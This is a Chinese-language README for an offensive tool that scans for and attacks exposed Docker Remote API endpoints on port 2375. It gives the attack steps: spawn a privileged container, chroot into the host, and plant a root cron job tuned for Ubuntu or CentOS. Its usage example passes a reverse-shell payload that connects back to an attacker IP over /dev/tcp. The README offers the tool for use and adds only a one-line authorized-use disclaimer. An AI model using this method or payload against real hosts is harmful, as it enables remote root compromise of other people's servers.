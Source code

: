 # FUCK2375

在编译之前记得导入一下项目中所需的github的包

旨在实现攻击2375端口的Docker Remote API

设置了两个功能，扫描2375端口和攻击2375端口

攻击代码思路为：

- 探测2375端口是否开放
- 创建docker连接获取本地镜像
- 把第一个镜像作为例子创建一个特权容器（如果本地没有镜像会去拉取ubuntu:latest然后去创建）
- 连接容器为宿主机设置执行计划任务



下面是使用方法：

~~~
-target 指定目标IP
-croncmd 指定计划任务需要执行的命令
-action 有两个值scan、attack，scan只做2375端口扫描，attack做2375端口扫描和攻击
-container 可选值，指定创建漏洞容器的名称，默认值为test_HgYCC3HqP1111
示例：
FuckDocker2375 -action attack -target 192.168.135.66 -croncmd "bash -c 'bash -i >& /dev/tcp/192.168.135.4/4447 0>&1'" -container test111
FuckDocker2375 -action scan -target 192.168.135.1-255
~~~

![1704451616223](picture/1704451616223.png)



由于Ubuntu和centos执行计划任务不同所以先`chroot /mnt cat /etc/lsb-release`和`chroot /mnt cat /etc/redhat-release`来探测目标机器是Ubuntu还是centos然后根据不同返回计划任务有所不同

- ubuntu：ubuntu执行计划任务是直接往/var/spool/cron/crontabs/root写内容然后为其设置权限为600

  ![1704451820143](picture/1704451820143.png)

- centos：centos执行计划任务是直接往/etc/crontab中写内容

  ![1704452035287](picture/1704452035287.png)

下面是扫描功能测试：

![1704452161329](picture/1704452161329.png)



**仅作为授权攻击，谨慎使用，否则后果自负**



